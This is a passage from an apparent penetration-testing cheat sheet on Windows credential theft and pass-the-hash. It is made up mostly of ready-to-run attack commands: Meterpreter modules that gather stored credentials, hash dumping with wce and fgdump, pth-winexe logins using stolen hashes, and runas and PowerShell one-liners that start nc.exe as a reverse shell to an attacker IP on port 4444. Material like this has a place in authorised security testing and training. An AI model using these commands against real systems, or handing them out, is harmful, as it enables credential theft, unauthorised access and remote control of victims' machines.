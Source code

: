 #### Using meterpreter:

```text
post/windows/gather/credentials/gpp
post/windows/gather/enum_unattend
```

## Pass the hash

Pass The Hash allows an attacker to authenticate to a remote target by using a valid combination of username and NTLM/LM hash rather than a cleartext password.

Windows hash format:

```text
user:group:id:ntlmpassword::
```

You can do a hash dump in the affected system running:

```text
wce32.exe -w
wce64.exe -w
fgdump.exe
```

Download and run fgdump.exe on the target machine.

```text
 cd /usr/share/windows-binaries/fgdump; python -m SimpleHTTPServer 80
```

```text
pth-winexe -U DOMAIN/user%hash //$ip cmd
```

or:

```text
export SMBHASH=xxx
pth-winexe -U user%  //$ip cmd
```

You can also do run as, with the hash:

### Technique 1:

```text
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

### Technique 2:

```text
secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```
